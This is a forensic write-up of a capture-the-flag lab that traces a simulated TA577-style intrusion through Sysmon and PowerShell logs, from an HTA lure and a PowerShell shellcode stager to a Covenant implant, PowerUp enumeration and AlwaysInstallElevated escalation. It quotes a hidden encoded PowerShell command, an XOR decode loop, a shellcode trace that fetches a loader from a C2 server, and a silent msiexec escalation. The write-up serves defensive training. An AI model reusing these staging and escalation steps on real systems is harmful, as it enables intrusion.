

# MarkShell - TA577 Lab

<p align="center">
  
</p>

# Table of Contents
- [Context](#context)
- [Scenario](#scenario)
- [Initial Access](#initial-access)
- [Execution](#execution)
  * [Sysmon ProcessGuid Lifetime Pivot](#sysmon-processguid-lifetime-pivot)
- [Defense Evasion](#defense-evasion)
- [Command and Control](#command-and-control)
- [Privilege Escalation](#privilege-escalation)
- [Credential Access](#credential-access)
  * [PowerShell RunspaceId Lifetime Pivot](#powershell-runspaceid-lifetime-pivot)
- [Lateral Movement](#lateral-movement)
- [Collection](#collection)
- [Discovery](#discovery)
- [Persistence](#persistence)
- [Attack Chain](#attack-chain)
  * [Text Tree](#text-tree)
- [Artifacts](#artifacts)
- [Lab Insights](#lab-insights)
- [Forensic Timeline](#forensic-timeline)

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/markshell-ta577/](https://cyberdefenders.org/blueteam-ctf-challenges/markshell-ta577/)

Suggested tools: CyberChef, Detect It Easy, Splunk, IDA, PEStudio, `scdbg`, CobaltStrikeParser

Tactics: Reconnaissance, Execution, Privilege Escalation, Defense Evasion, Credential Access, Lateral Movement

# Scenario

A regional healthcare provider escalated an urgent security incident after an employee reported unexpected background activity detected in routine external communication. Initial triage by the security team uncovered evidence of credential harvesting and unauthorized lateral movement toward critical internal infrastructure, posing a serious risk to patient records and administrative systems.

You have been provided with SIEM logs and forensic artifacts collected across multiple affected machines. Your task is to conduct a multi-host investigation, correlating evidence across workstations, servers, and domain infrastructure to reconstruct the full attack chain and determine the extent of the attacker's reach across the network.

# Initial Access

**Q1**- The user downloaded cd a malicious archive file that initiated the infection. What is the full name of this archive file?

Answer: `google.com!organcorp.com!1690000000!1690086400.7z`

Reason: A Sysmon Event ID 15 (`FileCreateStreamHash`) on `IT-WS-7.organcorp.local` at `2026-03-24 22:03:01 UTC` captured the initial payload delivery to `ORGANCORP\manalalberta`. The victim had a malicious sideloaded UWP app (which was probably downloaded via a previous unauthorized operation), `40811eyack[.]com.MAIL_xsbsxxypt8dh6`, installed under `AppData\Local\Packages`, posing as a Mail client built on WebView2 (embedded Chromium). Within this app, the user accessed Gmail via `mail.google[.]com` and downloaded an archive disguised as a Domain-based Message Authentication, Reporting and Conformance (DMARC) aggregate report. WebView2 saved it to the app's sandboxed temp path, and `RuntimeBroker.exe` brokered it out to the user-visible Downloads folder (T1218), resulting in the full path `C:\Users\manalalberta\Downloads\40811eyack[.]com.MAIL_xsbsxxypt8dh6!App\google[.]com!organcorp[.]com!1690000000!1690086400.7z`.

The lure is notable: DMARC aggregate reports are routine XML archives sent to IT and security teams, making this a credible pretext for the target's role. The use of a fake Mail UWP app with an embedded browser to harvest webmail activity aligns with T1185 (Browser Session Hijacking) and T1566.002 (Phishing: Spearphishing Link).


**Q2**- The malicious archive link was delivered via a phishing email. What is the unique message ID of this email, as captured from the mail history?

Answer: `KtbxLvhRWjDKFCvLNwcrhFlvzXJLkPNWqq`

Reason: The phishing email's unique identifier was recovered from the malicious UWP app's WebView2 browser history at `EBWebView\Default\History` (SQLite `urls` table, row 23), which logged a visit to `hxxps://mail.google[.]com/mail/u/0/#inbox/KtbxLvhRWjDKFCvLNwcrhFlvzXJLkPNWqq`. The trailing path segment `KtbxLvhRWjDKFCvLNwcrhFlvzXJLkPNWqq` is Gmail's unique thread identifier for the lure email.

The page title recovered from the same record, `Report Domain: organcorp.com Submitter: google.com Report-ID: 54654-564654-65467-5468 - a99245686@gmail.com - Gmail`, confirms the email spoofed a legitimate DMARC aggregate report. The sender `a99245686@gmail[.]com` is a free Gmail account impersonating Google's DMARC reporting infrastructure, a low-cost and commonly abused delivery method to bypass organizational email controls (T1566.002). The fabricated `Report-ID` and domain pairing of `organcorp[.]com` and `google[.]com` mirrors the archive filename, tying the lure directly to the payload recovered in the prior event.


# Execution

**Q3**- After the user extracted the archive, a malicious file was executed. What is the name of the first malicious file the user ran?

Answer: `deploy.hta`

Reason: After extracting the archive to `C:\Users\manalalberta\Desktop\dmarc\google.com!organcorp.com!1690000000!1690086400\`, the user executed `deploy.hta` via `mshta.exe` at `2026-03-24 22:07:52 UTC`, captured by Sysmon Event ID 1 (Process Create) on `IT-WS-7.organcorp.local`, tagged with T1204 (User Execution). `explorer.exe` spawned the process directly, indicating a double-click execution by the user. `mshta.exe`, a 32-bit Microsoft Internet Explorer component located in `SysWOW64` and signed by Microsoft, served as the execution proxy, a classic Living-off-the-Land Binary (LOLBin) technique for running embedded VBScript or JScript payloads disguised as HTML Application (HTA) files. The GUID `{1E460BD7-F1C3-4B2E-88BF-4E770A288AF5}` appearing twice in the command line is characteristic of HTA activation syntax, commonly used to pass a class identifier to the HTA runtime.

```powershell
SPL: index=* "google.com!organcorp.com!1690000000!1690086400" "<EventID>1</EventID>" "deploy.hta"

Host: IT-WS-7.organcorp.local
User: ORGANCORP\manalalberta
Time: 2026-03-24 22:07:52 UTC
Image: C:\Windows\SysWOW64\mshta.exe
CommandLine: "C:\Windows\SysWOW64\mshta.exe" "C:\Users\manalalberta\Desktop\dmarc\google.com!organcorp.com!1690000000!1690086400\google.com!organcorp.com!1690000000!1690086400\deploy.hta" {1E460BD7-F1C3-4B2E-88BF-4E770A288AF5}{1E460BD7-F1C3-4B2E-88BF-4E770A288AF5}
ParentImage: C:\Windows\explorer.exe
```


**Q4**- What legitimate Windows process was used to run the initial malicious payload?

Answer: `mshta.exe`

Reason: The initial malicious payload (`deploy.hta`) was executed by `mshta.exe` (`C:\Windows\SysWOW64\mshta.exe`), a legitimate signed Microsoft binary ("Microsoft (R) HTML Application host", part of Internet Explorer) that natively parses and runs HTML Applications (HTAs) containing embedded VBScript or JScript. This is a well-documented Living-off-the-Land Binary (LOLBin) technique abused for initial execution, previously evidenced in Q3 data and mapped to T1218.005 (System Binary Proxy Execution: Mshta) and T1204 (User Execution).

**Q5**- The first malicious file launched a multi-stage obfuscated PowerShell script that decoded and dropped a shellcode payload into memory. This initial shellcode downloaded a second-stage loader. What is the filename of this loader?

Answer: `andy.exe`

Reason: Starting from the `mshta.exe` execution of `deploy.hta` (Q3/Q4), the Sysmon Event ID 1 (Process Create) event for the spawned `powershell.exe -encodedcommand <b64>` process carries a `ProcessGuid` of `{c73af8d8-0b3c-69c3-4c0e-000000005400}` (PID 5236). Sysmon assigns this globally unique identifier to that one process instance for its entire lifetime, enabling pivoting to every other event logged for that same process regardless of Process ID (PID) reuse across the system.

Filtering Sysmon Event ID 11 (FileCreate) events by that ProcessGuid surfaces exactly one result: `powershell.exe` (PID 5236) writing `C:\Users\manalalberta\AppData\Local\andy.exe` to disk at `2026-03-24 22:28:14 UTC`, identifying `andy.exe` as the second-stage loader. The write to a user-writable `AppData\Local` path is consistent with T1105 (Ingress Tool Transfer) and is a common staging location used to avoid directories that require elevated permissions. The approximately 20-minute gap between initial `mshta.exe` execution (`2026-03-24 22:07:52 UTC`) and the file write suggests the PowerShell (PS) stage performed network retrieval or in-memory decoding before dropping the binary.

```powershell
# First SPL to find global sysmon process GUID
index=* "mshta.exe" "deploy.hta"

<Event
	<EventData>
		<Data Name='RuleName'>-</Data>
		<Data Name='UtcTime'>2026-03-24 22:28:14.080</Data>
		<Data Name='ProcessGuid'>{c73af8d8-0b3c-69c3-4c0e-000000005400}</Data>
		<Data Name='ProcessId'>5236</Data>
		<Data Name='Image'>C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe</Data>
		<Data Name='TargetFilename'>C:\Users\manalalberta\AppData\Local\andy.exe</Data>
		<Data Name='CreationUtcTime'>2026-03-24 22:28:14.079</Data>
		<Data Name='User'>ORGANCORP\manalalberta</Data>
	</EventData>
</Event>

# Second SPL to find the deployed/dropped second-stage loader
index=* "<EventID>11</EventID>" "c73af8d8-0b3c-69c3-4c0e-000000005400"
```

## Sysmon ProcessGuid Lifetime Pivot

Sysmon assigns each process a globally unique ProcessGuid at spawn time that persists for the entire lifetime of that process instance, surviving PID reuse and system reboots. Pivoting on this identifier across all Sysmon event types converts a transient process into a durable, queryable object, enabling full behavioral reconstruction without the ambiguity that comes with PID-based correlation.

- Full behavioral timeline: filter every Sysmon event type by ProcessGuid to reconstruct a single process instance's complete activity across Event ID 1 (spawn), 3 (network), 7 (image load), 10 (process access), 11 (file write), 13 (registry), and 17/18 (named pipe) without PID collision or timestamp ambiguity.
- Parent-child lineage tracing: Event ID 1 logs both `ProcessGuid` and `ParentProcessGuid`, enabling upward traversal to the root execution ancestor and downward traversal to every child spawned, useful for mapping full LOLBin-to-loader chains.
- Orphan process detection: a ProcessGuid appearing in Event ID 3, 11, or 13 records with no corresponding Event ID 1 indicates a process that predates the logging window or a Sysmon visibility gap, both worth flagging.
- Beaconing pattern analysis: aggregating Event ID 3 records by ProcessGuid and sorting by timestamp surfaces consistent inter-connection intervals to the same destination without PID reuse interference.
- Injection target linkage: Event ID 10 logs both source and target ProcessGuid, providing a clean injector-to-victim link when suspicious access rights (`PROCESS_VM_WRITE`, `PROCESS_CREATE_THREAD`) are observed, mapped to T1055 (Process Injection).

**Q6**- What is the SHA256 hash of the second-stage loader?

Answer: `0F6600C312D880D8A6271009CEEEF5C19647ABE3B452BCFAA206130D9A76F33E`

Reason: Since `andy.exe` is now a known artifact, the next logical event is its own process create record. Searching Sysmon Event ID 1 for `andy.exe` as the Image field surfaces its execution at `2026-03-24 22:28:44 UTC`, just 30 seconds after it was written to disk, spawned directly by the same `powershell.exe` instance (`ParentProcessGuid` `{c73af8d8-0b3c-69c3-4c0e-000000005400}`, matching the Q5 dropper process). Sysmon's built-in ruleset flagged this event as T1036 (Masquerading), consistent with a binary carrying no `OriginalFileName`, `Company`, or `Product` metadata in its version info, which is a common characteristic of custom or stripped loaders. The Hashes field on this event provides all four hash values directly, removing the need for a separate hashing step.

```powershell
index=* "<EventID>1</EventID>" "Name='Image'>C:\\Users\\manalalberta\\AppData\\Local\\andy.exe"

<Event
	<EventData>
		<Data Name='RuleName'>technique_id=T1036,technique_name=Masquerading</Data>
		<Data Name='UtcTime'>2026-03-24 22:28:44.149</Data>
		<Data Name='ProcessGuid'>{c73af8d8-101c-69c3-210f-000000005400}</Data>
		<Data Name='ProcessId'>9172</Data>
		<Data Name='Image'>C:\Users\manalalberta\AppData\Local\andy.exe</Data>
		<Data Name='CommandLine'>C:\Users\manalalberta\AppData\Local\andy.exe</Data>
		<Data Name='CurrentDirectory'>C:\Users\manalalberta\Desktop\dmarc\google.com!organcorp.com!1690000000!1690086400\google.com!organcorp.com!1690000000!1690086400\</Data>
		<Data Name='User'>ORGANCORP\manalalberta</Data>
		<Data Name='LogonGuid'>{c73af8d8-0313-69c3-b4af-560200000000}</Data>
		<Data Name='Hashes'>SHA1=1EB36EF03561BAC8416973A014133F6AFC6FACE3,MD5=042FF59AD4833127273E1EE712D5A5B6,SHA256=0F6600C312D880D8A6271009CEEEF5C19647ABE3B452BCFAA206130D9A76F33E,IMPHASH=F34D5F2D4577ED6D9CEEC516C1F5A744</Data>
		<Data Name='ParentProcessGuid'>{c73af8d8-0b3c-69c3-4c0e-000000005400}</Data>
		<Data Name='ParentProcessId'>5236</Data>
		<Data Name='ParentImage'>C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe</Data>
		<Data Name='ParentCommandLine'>"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -nop -w hidden -encodedcommand JABzAD0...<SNIP>...KAApADsA</Data>
		<Data Name='ParentUser'>ORGANCORP\manalalberta</Data>
	</EventData>
</Event>
```

# Defense Evasion

**Q7**- The initial PowerShell stager contained a compressed payload. Based on the magic bytes of the encoded string, what compression algorithm was used?

Answer: `gzip`

Reason: Once Base64-decoded, the stage-1 PowerShell `-encodedcommand` blob begins with the bytes `1F 8B 08`, the standard gzip magic number (`1F 8B`) followed by the deflate compression method byte (`08`). This is directly reflected in the Base64 encoding itself: any binary blob starting with `1F 8B 08` will consistently decode from the Base64 prefix `H4sI`, which is exactly what appears on the stage-2 payload string (`H4sIAAAAAAAAAK1Xb...`), making it a recognizable fingerprint for gzip-compressed data passed through Base64. The `file` command run against the decoded bytes confirms this, reporting `gzip compressed data, from FAT filesystem (MS-DOS, OS/2, NT)`. This encoding and compression layering is consistent with T1027 (Obfuscated Files or Information), a common technique for concealing payload content from static string inspection and signature-based detection.

```bash
$ echo "H4sIAAAAAAAAAK1XbX.......LDQAA" | base64 -d > bin
                                                                                                                                                                                                                                      
$ file bin 
bin: gzip compressed data, from FAT filesystem (MS-DOS, OS/2, NT), original size modulo 2^32 3531

$ xxd bin | head
00000000: 1f8b 0800 0000 0000 0000 ad57 6d73 a2ca  ...........Wms..
```

**Q8**- After decompressing and decoding the PowerShell stager, an additional layer of XOR encryption is still protecting the final payload. What is the XOR key used to decrypt it?

Answer: `0x23`

Reason: The stage-2 PowerShell script decodes `$var_code` from Base64 and then runs a single-byte XOR decryption loop, applying the constant key `0x23` (decimal 35) to every byte in the array using the `-bxor` operator. Because XOR is symmetric, the same operation both obfuscates and recovers the payload: the same key `0x23` used to encrypt the shellcode before embedding it in the script is what reverses it at runtime. Replicating this in CyberChef (XOR key `23` hex, standard scheme) recovered the working 795-byte shellcode, which `scdbg` subsequently executed successfully for behavioral analysis. This technique maps to T1027 (Obfuscated Files or Information), with single-byte XOR being one of the most common lightweight obfuscation methods used to evade static signature detection without adding runtime dependencies. Key: `0x23` (decimal `35`), single-byte XOR.

```powershell
for ($x = 0; $x -lt $var_code.Count; $x++) {
    $var_code[$x] = $var_code[$x] -bxor 35
}
```


**Q9**- During analysis of the shellcode, you noticed it implements API Hashing to obfuscate its Windows API calls at runtime. What is the hashing algorithm used?

Answer: ROR13

Reason: The first step is decoding and XOR decrypting the XOR-encrypted shellcode using a similar PowerShell script that reverses the transaction:

```powershell
$b = [Convert]::FromBase64String('38uqIyMjQ6rGEvFHqHET...')  # The 795-byte blob found in the first-stage loader (which was decompressed from gzip)
for ($i = 0; $i -lt $b.Count; $i++) { $b[$i] = $b[$i] -bxor 0x23 }
[IO.File]::WriteAllBytes("$PWD\shell.bin", $b)
```

Stepping through the decoded 795-byte shellcode (`shell.bin`) in `scdbg`, the signature scanner flagged address `40101C`, just 28 bytes past the entry point and well before the first observed API call (`LoadLibraryA` at `4010A2`), with the signature `hasher.harmony`. This is `scdbg`'s label for the well-known ROR-13 API hashing routine: a loop that rotates an accumulator register right by 13 bits and adds each character of an API name string, producing a constant hash value used to locate that function's address in `kernel32.dll` or `wininet.dll` at runtime without embedding any plaintext function names in the shellcode. This technique explains why PEStudio's string dump of `shell.bin` surfaced no Windows API names at all, only the command-and-control (C2) IP address, Uniform Resource Identifier (URI) path, and user-agent string. The routine itself was popularized by Metasploit and is widely reused in Cobalt Strike-style loaders, making its presence a strong indicator of commodity shellcode generation frameworks rather than custom implant development.

```powershell
PS C:\Tools\MemAnalysis\scdbg> .\scdbg.exe /f .\shell.bin /i /s 100000000 /r
Loaded 31b bytes from file .\shell.bin
Memory monitor enabled..
Initialization Complete..
Interactive Hooks enabled
Max Steps: 100000000
Using base offset: 0x401000

4010a2  LoadLibraryA(wininet)
4010b0  InternetOpenA()
4010cc  InternetConnectA(server: 3.72.9.217, port: 80, )
4010e4  HttpOpenRequestA(path: /zISF, )
4010f8  HttpSendRequestA(User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0; FunWebProducts; IE0006_ver1;EN_GB), )
40111a  GetDesktopWindow()
401129  InternetErrorDlg(11223344, 4893, 40111a, 7, 0)
4012de  VirtualAlloc(base=0 , sz=400000) = 600000
4012f9  InternetReadFile(4893, buf: 600000, size: 2000)

Stepcount 100000001

Analysis report:
        Reads of Dll memory detected            (use -mdll for details)
        Uses peb.InMemoryOrder List

Signatures Found:
        40101c   hasher.harmony

Memory Monitor Log:
        *PEB (fs30) accessed at 0x40100b
        peb.InMemoryOrderModuleList accessed at 0x401012
```

**Q10**- In order to resolve APIs, this shellcode implements two techniques — PEB Walking and PE Parsing. What is the first library it resolves and loads?

Answer: `wininet.dll`

Reason: The PEB walk and ROR-13 resolution chain (flagged at `40101C`) handles `kernel32.dll` without any explicit load call because the Windows loader guarantees `kernel32.dll` is already mapped into every process at startup. The shellcode locates it by walking the Process Environment Block (PEB), a per-process structure maintained by the Windows kernel that tracks all loaded modules via a doubly-linked list (`PEB_LDR_DATA`). Traversing that list and matching the `kernel32.dll` base address gives the shellcode a pointer to its PE export table, which it then parses to resolve `LoadLibraryA` and `GetProcAddress` by ROR-13 hash rather than by name string.

With those two functions resolved, the shellcode has everything it needs to load arbitrary libraries at runtime. The first explicit `LoadLibraryA` call visible in the `scdbg` trace at `4010A2` targets `wininet.dll`, which is not guaranteed to be pre-loaded, making this the logical first use of the newly resolved function. `wininet.dll` provides the full HTTP client API (`InternetOpenA`, `InternetConnectA`, `HttpOpenRequestA`, and related functions) used to retrieve `andy.exe` from `3.72.9.217/zISF` .

```
40101C  hasher.harmony      <- PEB walk + ROR-13 resolves kernel32.dll exports
                               (LoadLibraryA, GetProcAddress) without name strings
4010A2  LoadLibraryA(wininet)  <- first library explicitly loaded via resolved LoadLibraryA
```

# Command and Control

**Q11**- After the shellcode was executed previously, it initiated a network connection to download the second-stage loader. What is the C2 server IP address the shellcode connected to?

Answer: `3.72.9.217`

Reason: Once `wininet.dll` is loaded and its exports resolved via ROR-13 hashing, the shellcode calls `InternetConnectA` with the hardcoded server `3.72.9.217` on port `80`, followed by `HttpOpenRequestA` targeting the path `/zISF` to retrieve `andy.exe`. This is independently corroborated by PEStudio's string dump of the decoded shellcode, which surfaced `3.72.9.217`, `/zISF`, and a spoofed User-Agent as plaintext strings embedded directly in the binary, the only readable strings present given that all API names were obscured by the ROR-13 hashing routine mapped in Q9. The combination of hardcoded IP, single-segment URI path, and spoofed User-Agent is consistent with Metasploit or Cobalt Strike-generated stagers, mapped to T1071.001 (Application Layer Protocol: Web Protocols).

```
4010cc  InternetConnectA(server: 3.72.9.217, port: 80)
4010e4  HttpOpenRequestA(path: /zISF)
```

**Q12**- After the second-stage loader was executed, it established its own C2 communication channel. What is the C2 server IP address it connected to?

Answer: `18.153.105.76`

Reason: Using the ProcessGuid lifetime pivot pattern anchored on `andy.exe`'s own ProcessGuid (`{c73af8d8-101c-69c3-210f-000000005400}`, PID `9172`), a search for Sysmon Event ID 3 (Network Connect) returns an outbound TCP connection just one second after `andy.exe` launched (`2026-03-24 22:28:44 UTC` execution, `22:28:45.281 UTC` connection): originating from `10.10.11.125:54615` (IT-WS-7's internal IP) to `18.153.105.76:80`. This distinguishes `andy.exe` as a second, independent command-and-control (C2) implant, separate from `3.72.9.217`, which served exclusively as the staging server used to deliver `andy.exe` in Q11. The one-second interval between process creation and outbound connection is consistent with an implant that beacons immediately on execution with no delay or jitter, mapped to T1071.001 (Application Layer Protocol: Web Protocols). The fresh ProcessGuid and new Indicator of Compromise (IOC) at `18.153.105.76:80` provide the next pivot point for continuing the chain.

```xml
index=* source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" "andy.exe" "<EventID>3</EventID>"

<Event
	xmlns='http://schemas.microsoft.com/win/2004/08/events/event'>
	<System>
		<Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385f-c22a-43e0-bf4c-06f5698ffbd9}'/>
		<EventID>3</EventID>
	</System>
	<EventData>
		<Data Name='RuleName'>technique_id=T1036,technique_name=Masquerading</Data>
		<Data Name='UtcTime'>2026-03-24 22:28:45.281</Data>
		<Data Name='ProcessGuid'>{c73af8d8-101c-69c3-210f-000000005400}</Data>
		<Data Name='ProcessId'>9172</Data>
		<Data Name='Image'>C:\Users\manalalberta\AppData\Local\andy.exe</Data>
		<Data Name='User'>ORGANCORP\manalalberta</Data>
		<Data Name='Protocol'>tcp</Data>
		<Data Name='SourceIp'>10.10.11.125</Data>
		<Data Name='SourcePort'>54615</Data>
		<Data Name='DestinationIp'>18.153.105.76</Data>
		<Data Name='DestinationPort'>80</Data>
	</EventData>
</Event>
```

**Q13**- Analyzing the second-stage loader, network indicators, and communication patterns, what C2 framework is it associated with?

Answer: Covenant

Reason: Submitting `andy.exe`'s SHA256 hash (`0F6600C312D880D8A6271009CEEEF5C19647ABE3B452BCFAA206130D9A76F33E`, recovered in Q6) to VirusTotal returns detections tagging the sample as a Covenant , the implant payload generated by Covenant, an open-source .NET-based command-and-control (C2) framework commonly used in red team engagements and adopted by real-world threat actors. This identification aligns with every indicator already gathered: `andy.exe` carried no PE metadata (`FileVersion`, `Description`, `Company`, and `Product` all empty). Its outbound C2 connection to `18.153.105.76:80` over plain HTTP (Q12) matches Covenant's default Grunt HTTP listener communication pattern. The use of Covenant as the post-exploitation framework also provides context for the earlier staging chain: the shellcode delivered via `deploy.hta` and the PowerShell dropper served purely to fetch and execute the Grunt implant, with `3.72.9.217` acting as the delivery server and `18.153.105.76` serving as the active C2 listener.

# Privilege Escalation

**Q14**- The attacker ran a comprehensive host enumeration tool in memory before Privilege Escalation to gather information about the compromised system. What is the name of this tool?

Answer: `PowerUp`

Reason: The `WinEventLog:Windows PowerShell` log captured the actual transcript and pipeline output of the tool running. `HostApplication=C:\Users\manalalberta\AppData\Local\andy.exe` confirms this ran inside the Covenant Grunt's in-memory PowerShell runspace. The `Out-Default`/`Out-String` output shows `[*] Running Invoke-AllChecks` followed by every individual check PowerUp performs: local admin group membership, unquoted service paths, service permissions, hijackable Dynamic-Link Library (DLL) paths in `%PATH%`, `AlwaysInstallElevated` registry key, autologon credentials, vulnerable scheduled tasks (`schtasks`) and autoruns, unattended install files, and encrypted `web.config` strings.

`Invoke-AllChecks` is PowerUp's signature "run everything" function, which enumerates all known Windows privilege escalation vectors in a single pass. This is a direct confirmation of post-exploitation enumeration activity executed within the Grunt's runspace rather than a spawned child process, which is consistent with Covenant's in-memory execution model designed to avoid on-disk artifacts and reduce process-level visibility (MITRE ATT&CK T1059.001: Command and Scripting Interpreter: PowerShell, T1548.002: Abuse Elevation Control Mechanism: Bypass User Account Control).

```
index=* source="*PowerShell*" "andy" "Invoke-AllChecks"

HostApplication: C:\Users\manalalberta\AppData\Local\andy.exe
Output:          "[*] Running Invoke-AllChecks"
Tool:            PowerUp (PowerSploit privilege-escalation enumeration script)
Log Source:      WinEventLog:Windows PowerShell
```

**Q15**- The enumeration tool revealed a Windows policy misconfiguration that allows MSI packages to be installed with elevated privileges. What is the name of this setting?

Answer: `AlwaysInstallElevated`

Reason: The same `WinEventLog:Windows PowerShell` transcript that confirmed PowerUp running also shows it explicitly checking `[*] Checking for AlwaysInstallElevated registry key...`, one of PowerUp's `Invoke-AllChecks` modules. This module queries two registry values:

- `HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`
- `HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`

When both keys are set to `1`, any user regardless of privilege level can install `.msi` packages with `SYSTEM`-level rights.

```
index=* source="*PowerShell*" "andy" "Invoke-AllChecks"

Registry Keys Checked:
  HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
  HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

PowerUp Check Output: "[*] Checking for AlwaysInstallElevated registry key..."
Log Source:           WinEventLog:Windows PowerShell
```

**Q16**- What is the name of the MSI package the attacker executed to exploit the misconfiguration and escalate privileges?

Answer: `organInstaller.msi`

Reason: `msiexec /quiet /qn /i C:\Users\Public\organInstaller.msi` surfaces in the `andy.exe` process tree on `IT-WS-7`. The `/quiet /qn` flags suppress all UI prompts, consistent with a silent install exploiting the `AlwaysInstallElevated` misconfiguration PowerUp had just identified. Staging in `C:\Users\Public\` is deliberate: it is world-writable by standard users, requiring no elevated permissions to place the payload before execution.

```
SPL: index=* "andy.exe" "msi"
Command:     "msiexec" /quiet /qn /i C:\Users\Public\organInstaller.msi
Parent:      andy.exe process tree
Host:        IT-WS-7
Staging Dir: C:\Users\Public\
Naming IOCs: organInstaller.msi, organstaller.msi, organcorp[.]com
```


# Credential Access

**Q17**- The discovery script also found plaintext credentials stored in the registry. What is the username and password of the compromised account?

Answer: `domain.admin`:`aduserad@26`

Reason: The PowerUp `Invoke-AllChecks` module checking `[*] Checking for Autologon credentials in registry...` returned plaintext credentials stored in the Windows Autologon registry keys under `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`:

- `DefaultDomainName: organcorp.local`
- `DefaultUserName: domain.admin`
- `DefaultPassword: aduserad@26`

Autologon credentials are stored in plaintext by design, intended for kiosk or shared workstation deployments where automated login is required. On `IT-WS-7`, a domain admin account was configured this way, meaning any local user or process with registry read access recovers a working domain admin credential with no additional tooling. This is a critical find in the timeline: it likely explains how the attacker pivoted from a compromised standard-user session on `IT-WS-7` to domain admin activity on `DC01` without needing to perform additional credential attacks such as Kerberoasting or Pass-the-Hash (MITRE ATT&CK T1552.002: Unsecured Credentials: Credentials in Registry).

```
index=* source="*PowerShell*" "andy" "Invoke-AllChecks"

Registry Path:  HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
DefaultDomain:  organcorp.local
DefaultUser:    domain.admin
Host:           IT-WS-7
SystemTime:     2026-03-24T22:37:15.8041735Z
Log Source:     WinEventLog:Windows PowerShell (PowerUp output)
```

**Q18**- What is the Windows policy misconfiguration that revealed the account credentials in the registry?

Answer: `AutoAdminLogon`

Reason: The raw `WinEventLog:Windows PowerShell` event data confirms the exact registry query PowerUp executed under `ORGANCORP\manalalberta`'s session inside the `andy.exe` runspace. The pipeline called `Get-ItemProperty` against `HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` with `-Name AutoAdminLogon` and `-ErrorAction SilentlyContinue`, the latter suppressing any errors if the key is absent to keep enumeration quiet.

This is the forensic evidence tying the plaintext credential recovery directly to the Covenant Grunt's in-memory PowerShell runspace rather than an interactive user session. `SequenceNumber=5431` and `PipelineId=1` place this within the same continuous `RunspaceId=761740b2-272b-4b71-9f0d-738a5c074637` seen throughout the PowerUp execution, confirming the credential harvest was part of the same `Invoke-AllChecks` run and not a separate manual query (MITRE ATT&CK T1552.002: Unsecured Credentials: Credentials in Registry).

```
index=* "AutoAdminLogon" "andy"

UserId:       ORGANCORP\manalalberta
HostApp:      C:\Users\manalalberta\AppData\Local\andy.exe
RunspaceId:   761740b2-272b-4b71-9f0d-738a5c074637
SequenceNum:  5431
Query:        Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name AutoAdminLogon -ErrorAction SilentlyContinue
Log Source:   WinEventLog:Windows PowerShell
```

## PowerShell RunspaceId Lifetime Pivot

The `WinEventLog:Windows PowerShell` log exposes a pivoting pattern for reconstructing in-memory PowerShell execution that is directly analogous to the Sysmon (System Monitor) `ProcessGuid` lifetime pivot.

When a PowerShell runspace is created, Windows assigns it a `RunspaceId` that persists for the entire lifetime of that session, regardless of how many scripts or commands execute inside it. Every log entry generated within that runspace carries the same `RunspaceId`, making it the primary pivot field for correlating all activity back to a single execution context. In this investigation, `RunspaceId=761740b2-272b-4b71-9f0d-738a5c074637` ties every PowerUp `Invoke-AllChecks` module, including the `AlwaysInstallElevated` query and the Autologon credential harvest, to the same Covenant Grunt runspace hosted inside `andy.exe`.

The supporting fields each serve a distinct and narrower role. `HostId` identifies the PowerShell engine instance that owns the runspace, one level above `RunspaceId` and roughly equivalent to the parent process. In malware scenarios it is typically one-to-one with `RunspaceId`. `PipelineId` identifies a single command chain within the runspace, resetting or incrementing with each invocation, making it useful for isolating one specific `Get-ItemProperty` call but not for lifetime tracking. `SequenceNumber` is an ordering counter only, useful for establishing chronology within a session but carrying no identity value.

The practical pivot: filter `WinEventLog:Windows PowerShell` on a known `RunspaceId`, then sort ascending by `SequenceNumber` to reconstruct the full in-runspace command timeline in execution order, the same way a `ProcessGuid` filter across Sysmon event IDs reconstructs a process's complete activity chain.

```
Field          Sysmon Analog    Scope
RunspaceId     ProcessGuid      Runspace lifetime — primary pivot
HostId         Process image    Engine instance owning the runspace(s)
PipelineId     Single event     One command chain within the runspace
SequenceNumber Event order      Chronological ordering only

Example Pivot:
  index=wineventlog source="WinEventLog:Windows PowerShell"
  RunspaceId="761740b2-272b-4b71-9f0d-738a5c074637"
  | sort SequenceNumber
```

# Lateral Movement

**Q19**- Using the compromised credentials, the attacker executed a payload from a remote share. What is the full UNC path of this payload?

Answer: `\\FILE-SERVER-01\shares$\fsrv.exe`

